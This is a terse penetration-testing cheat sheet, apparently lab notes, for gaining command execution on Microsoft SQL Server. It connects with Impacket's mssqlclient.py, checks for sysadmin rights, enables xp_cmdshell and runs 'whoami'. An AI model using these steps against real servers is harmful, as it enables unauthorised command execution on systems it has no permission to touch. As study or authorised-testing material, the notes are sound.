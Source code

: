 # SQL
## Connect to SQL Server using Impacket
  mssqlclient.py [username]/sql_svc@[IP] -windows-auth
## Check privs
  SELECT IS_SRVROLEMEMBER ('sysadmin')
## Enable xp_cmdshell
  EXEC sp_configure 'Show Advanced Options', 1;

  reconfigure;

  sp_configure;

  EXEC sp_configure 'xp_cmdshell', 1

  reconfigure;

  xp_cmdshell "whoami"


